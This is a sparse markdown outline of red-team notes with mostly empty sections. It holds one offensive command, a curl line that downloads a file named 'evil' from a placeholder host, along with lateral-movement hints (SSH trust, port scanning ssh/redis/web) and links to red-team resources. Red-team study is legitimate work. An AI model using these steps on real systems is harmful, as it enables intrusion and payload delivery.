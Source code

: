 ## Initial Access


## Execution
- curl xxx/xx -o evil
- 

## Lateral move
- trust relationship : ssh
- portscan : ssh/redis/web
- 


## Tips
- Knowledge the environment like a new-bie
- Intranet assets : code hosting platform / management platform / 
- [red-team-tips](https://www.vincentyiu.com/red-team-tips)  @Vincent Yiu


## Reference
- [RedTeam-Tools_github](https://github.com/A-poc/RedTeam-Tools)
